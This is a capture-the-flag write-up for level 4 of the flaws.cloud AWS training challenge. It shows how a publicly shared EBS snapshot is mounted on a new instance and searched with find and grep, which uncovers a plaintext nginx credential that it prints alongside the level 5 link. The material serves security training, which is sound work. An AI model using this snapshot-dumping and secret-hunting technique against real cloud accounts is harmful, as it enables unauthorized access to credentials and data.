 AWS EBS snapshots are copies of an EBS volume at certain points in time. To access the content stored in the snapshot, we can create a new EBS volume using said snapshot (ensure the volume is in the same region as the snapshot):
```sh
$ aws ec2 create-volume --snapshot-id snap-0b49342abd1bdcb89 --availability-zone us-west-2a --region us-west-2
```
Then create a new EC2 instance in the same region and attach the volume to it. For this part, I just used the AWS Console as it was more intuitive. 

Afterwards, we need to SSH to the instance and mount the volume:
```sh

```

The following command was then used to traverse through the /mnt/ directory to find any file containing 'nginx' in its name:
```
find /mnt -type f 2>/dev/null | grep -i nginx | grep -v 'var'
```
This resulted in 37 files being matched. Eventually, the username and password was found in the file located at ```/mnt/home/ubuntu/setupNginx.sh```:

```sh
$ cat /mnt/home/ubuntu/setupNginx.sh
htpasswd -b /etc/nginx/.htpasswd flaws nCP8xigdjpjyiXgJ7nJu7rw5Ro68iE8M
```
Link to level 5:
```
http://level5-d2891f604d2061b6977c2481b0c8333e.flaws.cloud/243f422c/
```
#### Note(s): 
- In the first command, I presumed that the region would be us-west-2 based on previous levels which worked, but this can also be verified by using the ```dig``` command on the target website:
```sh
$ dig 4d0cf09b9b2d761a7d87be99d17507bce8b86f3b.flaws.cloud
```
```sh

;; ANSWER SECTION:
4d0cf09b9b2d761a7d87be99d17507bce8b86f3b.flaws.cloud. 5 IN CNAME ec2-54-202-228-246.us-west-2.compute.amazonaws.com.
ec2-54-202-228-246.us-west-2.compute.amazonaws.com. 5 IN A 54.202.228.246
```

- The main challenge of this level was figuring out how to read the contents of the snapshot (turns out you can't) / exploiting it. I ended up stumbling upon this [article](https://cloud.hacktricks.xyz/pentesting-cloud/aws-security/aws-post-exploitation/aws-ec2-ebs-ssm-and-vpc-post-exploitation/aws-ebs-snapshot-dump) which ultimately helped me solve this level.

